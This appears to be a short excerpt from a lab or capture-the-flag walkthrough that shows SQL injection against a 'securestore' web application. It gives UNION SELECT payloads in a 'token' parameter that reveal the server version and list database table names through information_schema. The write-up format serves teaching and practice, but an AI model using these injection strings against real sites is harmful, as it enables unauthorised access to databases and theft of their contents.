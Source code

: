 #### Determine the server version

token=212174768840da1c6a1604c8b485a0ee'union+select+1,version(),3,4,5--+

![Image](/img/serverversion.png)

#### Determine the all the table names on the securestore database

token=212174768840da1c6a1604c8b485a0ee'union+select+1,group_concat(table_name),3,4,5+from+information_schema.tables--+

![Image](/img/tablenames1.png)

token=212174768840da1c6a1604c8b485a0ee'union+select+1,group_concat(table_name),3,4,5+from+information_schema.tables+where+table_schema=database()--+

![Image](/img/tablenames2.png)
